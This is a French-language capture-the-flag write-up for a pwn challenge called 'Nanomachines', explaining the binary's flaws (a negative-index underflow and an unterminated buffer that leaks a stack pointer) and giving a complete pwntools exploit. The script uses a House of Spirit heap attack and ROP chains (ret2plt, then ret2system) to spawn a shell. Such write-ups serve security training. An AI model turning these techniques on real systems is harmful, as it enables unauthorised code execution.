



# Nanomachines

## Description
Le challenge nous fourni un binaire, une libc et une addresse à laquelle nous connecter via netcat. En nous connectant, on découvre un menu où diverses  options s'offrent à nous :

 - Création préalable d'un combo
 - Exécution d'un combo
  - Si on utilise un combo existant, il sera possible de le modifier après l'avoir utilisé

   - Si nous décidons d'improviser un nouveau combo, nous pourrons en faire notre combo sauvegardé après l'avoir utilisé.

 - Affichage d'une phrase entrée par l'utilisateur



De plus, checksec nous indique la présence d'un canary et du bit NX.



## Reverse

Plusieurs éléments sont importants à repérer lors de la rétro-ingénierie du binaire :

 - Les combos sont en fait des structures comportant un array de 256 octets contenant les coups du combo, ainsi qu'une variable permettant de savir si celui-ci est sauvegardé ou non
 - Les entrées utilisateurs vers les buffers sont gérées par la fonction `read`
 - Si nous choisissons de modifier un combo sauvegardé après l'avoir exécuté, les modifications se font dans un buffer, qui sera copié dans une nouvelle struct combo à partir de l'index du dernier coup du combo sauvegardé. Le combo précédent est alors free, et une nouvelle struct combo est créée.
 - Lorsque nous choisissons l'index du coup à modifier, un index supérieur à la taille du buffer déclenche une erreur et le programme quitte. Cependant, le programme ne vérifie pas si l'index est >= 0.
 - Lorsque nous entrons une phrase badass, le programme n'ajoute pas d'octet nul à la fin du buffer avant de l'afficher. Cela nous permet de leak le pointeur sur la stack se trouvant juste derrière le buffer lors de l'affichage (`printf` lisant jusqu'à rencontrer un octet nul).

## Le plan

Notre plan se déroulera en 6 étapes :

1) On  entre une phrase badass d'exactement 64 caractères. Le leak du pointeur présent sur la stack nous permettra de connaître  le décalage appliqué par l'ASLR sur la stack.

2) On crée un nouveau combo  de 104 coups

3) On exécute notre combo et on accepte de le modifier lorsque le programme nous le demande. On forge 2 faux chunk dans notre buffer à partir de l'index 160 (en précisant leur taille comme 0x111). On exploite ensuite le buffer underflow afin d'écraser la valeur du pointeur qui sera passé à `free` par l'adresse de notre premier faux chunk. Ainsi, lorsque notre nouvelle struct sera créée, `malloc` retournera l'addresse d'un chunk sous notre contrôle (House of Spirit). Et il se trouve que dans ce nouveau chunk se trouveront le canary et l'adresse de retour de la fonction ;)

4) On écrit à partir de l'index 104 dans notre buffer une ropchain de type ret2plt, ret2main afin deconnaître le décalage appliqué par l'ASLR sur les librairies importées. Notez qu'à aucun moment nous ne touchons au canary.

5) On calcule à partir du leak l'adresse à laquelle se trouvent la fonction `system` et la chaîne `/bin/sh`.

6) On refait la même chose, mais ce coup-ci en écrivant une ropchain de type ret2system.

```python
from pwn import *

context.binary = "./resources/challenge"
elf = ELF("./resources/challenge")
libc = ELF("./resources/libc.so.6")
p = remote("0.0.0.0", 1337)

# Stack variables
leak_stack_no_aslr = 0x7fffffffda30 # Adress was taken in pwndbg without cleaning env variables
leak_return_address = 0x7fffffffda08
house_of_spirit_address = 0x7fffffffd990 + 16

# Fake heap fast chunks
fake_chunk_0 = [p64(0x111), p64(0x111), b"\x00\x00\x00\x00\x00\x00\x00\x00", b"\x00\x00\x00\x00\x00\x00\x00\x00", b"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"]
fake_chunk_1 = [p64(0x111), p64(0x111), b"\x00\x00\x00\x00\x00\x00\x00\x00", b"\x00\x00\x00\x00\x00\x00\x00\x00", b"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"]
fake_chunks = list(b"".join(fake_chunk_0 + fake_chunk_1))


# Leak stack ASLR
log.info("[+] Leaking stack ASLR")
p.recvuntil(b">")
p.sendline(b"3")
p.recvuntil(b"e :")
p.send(b"A" * 64)
p.recv()
data = p.recv()[96:96+6]
print(data)
leak_stack_aslr = u64(data + b"\x00\x00")
stack_offset = leak_stack_no_aslr - leak_stack_aslr
leak_return_address -= stack_offset
house_of_spirit_address -= stack_offset
print("[+] Stack offset :", hex(stack_offset))

# Create a combo
log.info("[+] Creating new combo")
p.sendline(b"1")
p.recvuntil(b"capable :")
p.send(b"A"*104)

# Execute our combo in order to reach the vulnerable code
p.recvuntil(b">")
p.sendline(b"2")
p.recvuntil(b"2. Improviser un nouveau combo")
p.sendline(b"1")
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

# We underflow the buffer in order to perform a House of Spirit
# We will free an address on the stack inside our buffer
log.info("[+] Performing House of Spirit attack")

p.recvuntil(b"modifier ?")
p.sendline(b"-56")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-55")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 8 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-54")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 16 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-53")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 24 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-52")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 32 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-51")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 40 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-50")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 48 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-49")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 56 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

# Forging a fake chunks on our buffer
for i in range(160, 160+96):
    p.recvuntil(b"modifier ?")
    p.sendline(str(i).encode())
    p.recvuntil(b"coup :")
    p.sendline(bytes([fake_chunks[i-160]]))
    p.recvuntil(b"[oui/non]")
    p.sendline(b"oui")

# Preparing a ropchain in order to leak ASLR using ret2plt
rop = ROP(elf)
rop.puts(elf.got["puts"])
rop.call(elf.sym["main"])
print("ROP :", rop.chain(), len(rop.chain()))

# Copying our ropchain into the controlled buffer
for i in range(104, 104 + len(rop.chain())):
    p.recvuntil(b"modifier ?")
    p.sendline(str(i).encode())
    p.recvuntil(b"coup :")
    p.sendline(bytes([list(rop.chain())[i-104]]))
    p.recvuntil(b"[oui/non]")
    p.sendline(b"oui")

# Finishing the modifications
p.recvuntil(b"modifier ?")
p.sendline(b"0")
p.recvuntil(b"coup :")
p.sendline(b"A")
p.recvuntil(b"[oui/non]")
p.sendline(b"non")
log.info("[+] House of Spirit successful")


# Retrieving the leaked adress of puts
leak_puts = p.recvline().strip()
leak_puts = u64(leak_puts + b"\x00\x00")
print("[+] Leaked address of puts :", hex(leak_puts))

# Calculating libc base address
libc.address = leak_puts - libc.sym["puts"]
print("[+] Libc base address :", hex(libc.address))

# Creating a new combo in order to clean things up
p.recvuntil(b">")
p.sendline(b"1")
p.recvuntil(b"capable :")
p.send(b"A"*104)

# Performing the House of Spirit a second time
p.recvuntil(b">")
p.sendline(b"2")
p.recvuntil(b"2. Improviser un nouveau combo")
p.sendline(b"1")
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

log.info("[+] Performing the second House of Spirit attack")
house_of_spirit_address -= 16

p.recvuntil(b"modifier ?")
p.sendline(b"-56")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-55")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 8 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-54")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 16 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-53")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 24 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-52")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 32 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-51")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 40 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-50")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 48 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-49")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 56 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

# Forging a fake chunks on our buffer
for i in range(160, 160+96):
    p.recvuntil(b"modifier ?")
    p.sendline(str(i).encode())
    p.recvuntil(b"coup :")
    p.sendline(bytes([fake_chunks[i-160]]))
    p.recvuntil(b"[oui/non]")
    p.sendline(b"oui")

# Preparing a ropchain in order get a shell
rop = ROP(elf)
rop.raw(p64(0x0000000000401264)) # pop rdi; ret
rop.raw(p64(next(libc.search(b"/bin/sh"))))
rop.call(libc.sym["system"])
print("ROP :", rop.chain(), len(rop.chain()))

# Copying our ropchain into the controlled buffer
for i in range(104, 104 + len(rop.chain())):
    p.recvuntil(b"modifier ?")
    p.sendline(str(i).encode())
    p.recvuntil(b"coup :")
    p.sendline(bytes([list(rop.chain())[i-104]]))
    p.recvuntil(b"[oui/non]")
    p.sendline(b"oui")

# Finishing the modifications
p.recvuntil(b"modifier ?")
p.sendline(b"0")
p.recvuntil(b"coup :")
p.sendline(b"A")
p.recvuntil(b"[oui/non]")
p.sendline(b"non")
log.info("[+] Second House of Spirit successful")

p.interactive()

```


